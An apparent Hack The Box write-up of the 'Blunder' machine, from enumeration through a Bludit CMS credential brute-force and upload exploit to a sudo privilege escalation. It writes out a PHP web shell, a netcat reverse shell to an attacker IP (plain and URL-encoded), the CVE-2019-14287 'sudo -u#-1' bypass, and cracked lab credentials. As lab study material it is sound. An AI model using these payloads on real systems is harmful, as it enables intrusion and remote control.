 ```yaml
---
title: "[HTB] Machine: Blunder"
description: "[HTB] Machine: Blunder"
date: 2023-07-01
menu:
  sidebar:
    name: "[HTB] Machine: Blunder"
    identifier: htb-machine-blunder
    parent: htb-machines-linux
    weight: 10
hero: images/blunder.png
tags: ["HTB", "ubuntu", "bludit", "cms", "searchsploit", "github", "cewl", "bruteforce", "python", "upload", "filter", "crackstation", "cve-2019-14287", "sudo", "htaccess"]
---
```


# Blunder
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 12:05 BST
Nmap scan report for 10.10.10.191 (10.10.10.191)
Host is up (0.10s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.64 seconds
```
- Web server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php,html
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.191
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2023/07/01 14:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/about                (Status: 200) [Size: 3281]
/.php                 (Status: 403) [Size: 277]
/0                    (Status: 200) [Size: 7562]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.191/admin/]
/install.php          (Status: 200) [Size: 30]
/robots.txt           (Status: 200) [Size: 22]
/todo.txt             (Status: 200) [Size: 118]
/usb                  (Status: 200) [Size: 3960]
/LICENSE              (Status: 200) [Size: 1083]
```

- Interesting paths

![](./images/2.png)
![](./images/3.png)

## Foothold
- `Searchsploit`

![](./images/4.png)

- We know from the note that there is a user named `fergus`
  - Need to find version of the cms
  - We can assume it's version is `3.9.2`

![](./images/5.png)
![](./images/7.png)

- Let's check an exploit for credential bruteforcing

![](./images/6.png)

- So I ran `poc` with `rockyou` wordlist, but no success
  - Then I used `cewl` to create a wordlist from the webserver
  - `cewl http://10.10.10.191 > passwd.list`

![](./images/8.png)

- Then I started the exploit
  - `fergus:RolandDeschain`

![](./images/9.png)
![](./images/10.png)

- It seems that `Bludit` also has directory traversal vulnerability

![](./images/11.png)

- Let's run that exploit
  - Prepare payloads
    - `echo '<?php system($_REQUEST["cmd"]); ?>' > evil.png`
    - `echo "RewriteEngine off" > .htaccess`
    - `echo "AddType application/x-httpd-php .png" >> .htaccess`

![](./images/12.png)
![](./images/13.png)
![](./images/14.png)

- Rev shell: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 6666 >/tmp/f`
  - URL encoded:`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.16.7%206666%20%3E%2Ftmp%2Ff`

![](./images/15.png)
![](./images/16.png)
## User
- Enumeration
  - We can start with `linpeas`
  - Or
    - Start with `/var/www`
    - Let's search for files with `password` 
  - We found 2 `users.php` files for `3.10.0a` and `3.9.2` versions
    - We see a password for `Hugo`, which is a user on the box

![](./images/17.png)
![](./images/18.png)
![](./images/19.png)

- Crack the hash and try `su`
  - `hugo:Password120`

![](./images/20.png)
![](./images/21.png)

## Root
- Start with `sudo -l`

![](./images/22.png)

- We can run `sudo` as any user except `root`
  - Let's check the version just in case

![](./images/23.png)

- We have a [bypass](https://www.exploit-db.com/exploits/47502) for this specific case
  - `sudo -u#-1 /bin/bash`

![](./images/24.png)
![](./images/25.png)

